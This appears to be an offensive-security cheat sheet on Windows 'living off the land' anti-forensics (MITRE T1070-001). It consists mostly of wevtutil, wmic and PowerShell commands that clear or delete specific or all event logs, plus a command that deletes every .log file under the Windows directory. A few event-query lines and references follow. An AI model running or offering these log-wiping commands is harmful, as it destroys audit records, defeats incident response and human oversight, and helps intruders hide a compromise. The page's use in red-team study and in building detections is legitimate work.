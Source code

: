 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-forensics
  - living-off-the-land
  - T1070-001
  - windows
---
```

# Living off the Land

## 01 - Command Prompt

List logs.

```
C:\> wevtutil.exe enum-logs

C:\> wevtutil.exe el
```

Clear logs in a specific category.

```
C:\> wevtutil.exe clear-log <logname>

C:\> wevtutil.exe cl <logname>

C:\> wmic.exe nteventlog where filename='<logname>' call cleareventlog
```

Delete all event logs.

```
C:\> for /f "tokens=*" %1 in ('wevtutil.exe enum-logs') do wevtutil.exe clear-log "%1"

C:\> for /f "tokens=*" %1 in ('wevtutil.exe enum-logs') do wmic nteventlog where filename='%1' call cleareventlog
```

Delete all logs.

```
C:\> del %WINDIR%\*.log /a /s /q /f
```

## 02 - PowerShell

Delete a specific event log.

```
PS C:\> Remove-EventLog [-ComputerName <IP>] -LogName "Application"
Remove-EventLog [-ComputerName <IP>] -LogName "Security"
Remove-EventLog [-ComputerName <IP>] -LogName "System"
```

Clear multiple event logs.

```
PS C:\> Clear-Eventlog [-ComputerName <IP>] -Log Application,Security,System

PS C:\> Clear-Eventlog [-ComputerName <IP>] -Log Application,Security,System -Confirm

PS C:\> Get-WinEvent -ListLog Application,Security,System -Force | % { Wevtutil.exe cl $_.Logname }
```

Delete all event logs.

```
PS C:\> Get-EventLog -LogName * | ForEach { Clear-EventLog $_.Log }

PS C:\> Get-WinEvent -ListLog * -Force | % { Wevtutil.exe cl $_.LogName }

PS C:\> wevtutil.exe el | Foreach-Object { Write-Host "Clearing $($_)" -ForegroundColor Green; Wevtutil.exe cl "$_"}

PS C:\> Get-WinEvent -ListLog * | where {$_.RecordCount} | ForEach-Object -Process { [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }
```

TODO: Get all event logs to each specific event category

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Application"; ID=}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-Terminal-Services-RemoteConnectionManager/Operational"; ID=1149}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-Powershell/Operational"; ID=4100,4103,4104,}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-TerminalServices-Gateway"; ID=400,800}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Security"; ID=1102,4624,4625,4634,4647,4648,4657,4658,4661,4663,4672,4674,4688,4697,4720,4722,4732,4738,4768,4769,4776,4778,4779,4782,5712}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="System"; ID=7030,7036,7045,10000,100001,20001,20002,20003,24756,24577,24579}
```

Existing Even Logs
Microsoft-Windows-WinRM/Operational
Microsoft-Windows-WMI-Activity/Operational
Microsoft-Windows-DistributedCOM

```
PS C:\> Get-WmiObject -class Win32_NTLogEvent

PS C:\> Get-WmiObject -query "SELECT * FROM Win32_NTLogEvent WHERE EventCode = '4624'"

PS C:\> Get-WmiObject -query "SELECT * FROM Win32_NTLogEvent WHERE EventCode = '4624' and Message like '%User32%'"
```

---
## References

### Microsoft

- [Microsoft Powershell Management Powershell 7.2](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/remove-event?view=powershell-7.2)

- [Microsoft Powershell Management Powershell 5.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-eventlog?view=powershell-5.1)

### LOFLCAB

- [LOFLCAB: Clear-Eventlog](https://lofl-project.github.io/loflcab/Cmdlets/Clear-Eventlog/)

### Hacking Articles

- [Hacking Articles: Post Exploitation Using WMIC (System Command)](https://www.hackingarticles.in/post-exploitation-using-wmic-system-command/)

### svch0st

- [svch0st: Event Log Tampering Part 1 Disrupting The Eventlog Service](https://svch0st.medium.com/event-log-tampering-part-1-disrupting-the-eventlog-service-8d4b7d67335c)

### Red Team Guides

- [Red Team Guides: Event Codes for fun & profit](https://blog.redteamguides.com/event-codes-for-fun-profitrtc0020)